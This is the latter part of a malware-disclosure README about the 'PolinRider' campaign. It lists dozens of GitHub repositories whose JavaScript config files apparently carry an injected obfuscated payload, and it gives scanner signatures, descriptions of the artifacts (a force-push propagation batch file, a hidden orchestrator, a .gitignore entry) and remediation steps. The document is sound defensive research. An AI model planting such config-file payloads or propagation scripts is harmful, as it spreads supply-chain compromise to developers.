| 611 | ranjannkumar/Chat-Application | ranjannkumar | User | 0 | 0 | 1 | client/.eslintrc.cjs |  | https://github.com/ranjannkumar/Chat-Application |
| 612 | ranjannkumar/Food-Delivery-App | ranjannkumar | User | 0 | 0 | 1 | admin/.eslintrc.cjs |  | https://github.com/ranjannkumar/Food-Delivery-App |
| 613 | richh-s/Adomate-challenge | richh-s | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/richh-s/Adomate-challenge |
| 614 | richh-s/Realstate-webapp | richh-s | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/richh-s/Realstate-webapp |
| 615 | saifullah-max/Sound-Cloud-Downloader | saifullah-max | User | 0 | 0 | 1 | backend/download.js |  | https://github.com/saifullah-max/Sound-Cloud-Downloader |
| 616 | samirhassen/ToDo-Realtime | samirhassen | User | 0 | 0 | 1 | web/client/relay.config.cjs |  | https://github.com/samirhassen/ToDo-Realtime |
| 617 | SanjayaPrasadRajapaksha/Hotel_Booking-Blog | SanjayaPrasadRajapaksha | User | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/SanjayaPrasadRajapaksha/Hotel_Booking-Blog |
| 618 | seemab-ahmed/digital-resume | seemab-ahmed | User | 0 | 0 | 1 | assets/js/plugins/circle-progress.js |  | https://github.com/seemab-ahmed/digital-resume |
| 619 | ShahbazRamzan/NodeTestApp | ShahbazRamzan | User | 0 | 0 | 1 | routes/userRoutes.js |  | https://github.com/ShahbazRamzan/NodeTestApp |
| 620 | shaniPandeyTech/astro_wale | shaniPandeyTech | User | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/shaniPandeyTech/astro_wale |
| 621 | Socheema/3legant | Socheema | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Socheema/3legant |
| 622 | Socheema/bukkahut | Socheema | User | 0 | 0 | 2 | postcss.config.mjs \| vite.config.ts | An overhaul of bukka website | https://github.com/Socheema/bukkahut |
| 623 | Socheema/ticketFlow | Socheema | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Socheema/ticketFlow |
| 624 | talhamajid02/chat-app | talhamajid02 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/talhamajid02/chat-app |
| 625 | tanushbhootra576/PWA_RESTRO | tanushbhootra576 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/tanushbhootra576/PWA_RESTRO |
| 626 | TechSolutionor98/graba2z | TechSolutionor98 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/TechSolutionor98/graba2z |
| 627 | TheFlexLab/NodeJs-Best-Starter-Template | TheFlexLab | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/TheFlexLab/NodeJs-Best-Starter-Template |
| 628 | tokenbot-org/token-contracts | tokenbot-org | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/tokenbot-org/token-contracts |
| 629 | Usamahafiz8/CCMB | Usamahafiz8 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Usamahafiz8/CCMB |
| 630 | Usamahafiz8/ios-refferal-to-clipboard | Usamahafiz8 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Usamahafiz8/ios-refferal-to-clipboard |
| 631 | vellum-labs/cexplorer-api | vellum-labs | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/vellum-labs/cexplorer-api |
| 632 | Vladyslav0060/gdocs-clone | Vladyslav0060 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Vladyslav0060/gdocs-clone |
| 633 | web-ghoul/AlCazar | web-ghoul | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/web-ghoul/AlCazar |
| 634 | ZekiKobe/lege-api | ZekiKobe | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/ZekiKobe/lege-api |
| 635 | addis-ale/My-portfolio | addis-ale | User | 2 | 0 | 1 | tailwind.config.js | Here is my portfolio using reactjs | https://github.com/addis-ale/My-portfolio |
| 636 | addygeek/Passkey-Passwordless-Authentication-System | addygeek | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/addygeek/Passkey-Passwordless-Authentication-System |
| 637 | AiProject2025/abdul-instant-price-poc | AiProject2025 | Organization | 0 | 0 | 1 | postcss.config.js |  | https://github.com/AiProject2025/abdul-instant-price-poc |
| 638 | akashstwt/kunal_project | akashstwt | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/akashstwt/kunal_project |
| 639 | akashstwt/vayuxi | akashstwt | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/akashstwt/vayuxi |
| 640 | alwahid786/domotics | alwahid786 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/alwahid786/domotics |
| 641 | duckatgit/test-task | duckatgit | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/duckatgit/test-task |
| 642 | EmanDeveloper/crud_main_nextjs | EmanDeveloper | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/EmanDeveloper/crud_main_nextjs |
| 643 | ihek130/BigMotionStudio | ihek130 | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/ihek130/BigMotionStudio |
| 644 | ihek130/PetWellBot | ihek130 | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/ihek130/PetWellBot |
| 645 | jbaze/clarity-cover | jbaze | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/jbaze/clarity-cover |
| 646 | malikjunaidhassann/portfolio2 | malikjunaidhassann | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/malikjunaidhassann/portfolio2 |
| 647 | MangoIT-Solutions/invoice_generator | MangoIT-Solutions | Organization | 0 | 0 | 1 | postcss.config.js |  | https://github.com/MangoIT-Solutions/invoice_generator |
| 648 | MohamedH1000/investment | MohamedH1000 | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/MohamedH1000/investment |
| 649 | MrSohaibAhmed/TFT-Product- | MrSohaibAhmed | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/MrSohaibAhmed/TFT-Product- |
| 650 | rakibwebdev23/baby-shop | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/baby-shop |
| 651 | rakibwebdev23/disaster-management-client | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/disaster-management-client |
| 652 | rakibwebdev23/doctors-clinic-client | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/doctors-clinic-client |
| 653 | rakibwebdev23/donation-help | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/donation-help |
| 654 | rakibwebdev23/kicks | rakibwebdev23 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/rakibwebdev23/kicks |
| 655 | rakibwebdev23/products-management-app | rakibwebdev23 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/rakibwebdev23/products-management-app |
| 656 | rakibwebdev23/real_estate | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/real_estate |
| 657 | rakibwebdev23/rick-and-morty-project | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/rick-and-morty-project |
| 658 | rakibwebdev23/storage-management-system-client | rakibwebdev23 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rakibwebdev23/storage-management-system-client |
| 659 | rakibwebdev23/video-editor | rakibwebdev23 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/rakibwebdev23/video-editor |
| 660 | S7AWKAT/ClubGrub | S7AWKAT | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/S7AWKAT/ClubGrub |
| 661 | sagar-dalwala999/AmazonResellerFlow | sagar-dalwala999 | User | 0 | 0 | 1 | postcss.config.js |  | https://github.com/sagar-dalwala999/AmazonResellerFlow |
| 662 | saif72437/linkedin-post-editor | saif72437 | User | 4 | 0 | 1 | tailwind.config.js |  | https://github.com/saif72437/linkedin-post-editor |
| 663 | saif72437/medium-clone | saif72437 | User | 5 | 0 | 1 | tailwind.config.js | Medium Clone built with Next.js Tailwind CSS & Sanity | https://github.com/saif72437/medium-clone |
| 664 | Superlearn1/school-signup-central | Superlearn1 | User | 0 | 1 | 1 | postcss.config.js |  | https://github.com/Superlearn1/school-signup-central |
| 665 | zafarnajmi1/FWRD | zafarnajmi1 | User | 0 | 0 | 1 | babel.config.js |  | https://github.com/zafarnajmi1/FWRD |
| 666 | zaheerahmad92001/777wallets | zaheerahmad92001 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/zaheerahmad92001/777wallets |
| 667 | zaheerahmad92001/customerApp | zaheerahmad92001 | User | 0 | 0 | 1 | babel.config.js |  | https://github.com/zaheerahmad92001/customerApp |
| 668 | zaheerahmad92001/saloon | zaheerahmad92001 | User | 0 | 0 | 1 | babel.config.js |  | https://github.com/zaheerahmad92001/saloon |
| 669 | DaviBarros/vscode | DaviBarros | User | 0 | 0 | 1 | eslint.config.js | Visual Studio Code | https://github.com/DaviBarros/vscode |
| 670 | dletterio1/qwen-code | dletterio1 | User | 0 | 0 | 1 | packages/vscode-ide-companion/tailwind.config.js | Qwen Code is a coding agent that lives in the digital world. | https://github.com/dletterio1/qwen-code |
| 671 | masar-edu/masar-forum | masar-edu | Organization | 0 | 0 | 1 | ui/.eslintrc.js | A Q&A platform software for teams at any scales. | https://github.com/masar-edu/masar-forum |
| 672 | addis-ale/better-auth-level | addis-ale | User | 0 | 0 | 1 | src/index.ts |  | https://github.com/addis-ale/better-auth-level |
| 673 | Frontier-tech-consulting/cross-chain-sdk | Frontier-tech-consulting | Organization | 0 | 0 | 1 | jest.config.js |  | https://github.com/Frontier-tech-consulting/cross-chain-sdk |
| 674 | Ankur-ongraph/rails | Ankur-ongraph | User | 0 | 0 | 1 | eslint.config.mjs | Ruby on Rails | https://github.com/Ankur-ongraph/rails |
| 675 | abuzarsaleem/Rasterex-Web-Viewer | abuzarsaleem | User | 0 | 0 | 2 | webpack.config.js (x2) | Rasterex Web-Viewer Source Code (Angular) | https://github.com/abuzarsaleem/Rasterex-Web-Viewer |

---

## Check for infections with polinrider-scanner.sh script

**What does the polinrider-scanner.sh script do?** - This bash script looks for two main signatures, `("rmcej%otb%",2857687)`, and `global['!']='8-270-2';var _$_1e42=` and it works on Windows, Linux or MacOS. If no infections are found, the script will exit with a `0`.  If infections *are* found, the script will highlight those to you and exit with a `1`.

| Artifact | Description |
|---|---|
| Infected config files | `postcss.config.mjs`, `postcss.config.js`, `tailwind.config.js`, `eslint.config.mjs`, `next.config.mjs`, `next.config.ts`, `babel.config.js` containing PolinRider signatures |
| `temp_auto_push.bat` | Propagation script that amends and force-pushes commits |
| `config.bat` | Hidden orchestrator script |
| `.gitignore` injection | `config.bat` entry added to hide the orchestrator |
| Git reflog anomalies | Amended commits consistent with PolinRider behavior (flagged only alongside other findings) |

## Remediation

If infections are found:

1. Remove the obfuscated payload from the end of infected config files (everything after the legitimate config, starting with `global['!']`)
2. Delete `temp_auto_push.bat` and `config.bat` if present
3. Remove `config.bat` from `.gitignore`
4. Check your npm global packages and VS Code extensions for the initial dropper
5. Force-push clean versions to GitHub
6. Report findings to [opensourcemalware.com](https://opensourcemalware.com)

---

## References

- GitHub Code Search: https://github.com/search?q=rmcej%25otb%25&ref=opensearch&type=code
- OpenSourceMalware.com: https://opensourcemalware.com
- Near miss for Qwen CLI VSCode extension:
   - https://github.com/QwenLM/qwen-code/pull/1257
   - https://github.com/dletterio1/qwen-code/blob/7af8f530f537ec4fae33afb4abb63f9111594229/packages/vscode-ide-companion/tailwind.config.js#L63
- Near miss for Prizma-Zod Generator:
   - https://github.com/finom/prisma-zod-generator/commit/05e169512fdfb8f3492f0a259b445b2d0d629cba

---

Source: https://github.com/OpenSourceMalware/PolinRider

*Research conducted using the GitHub Code Search API. Data collected 2026-03-07.*
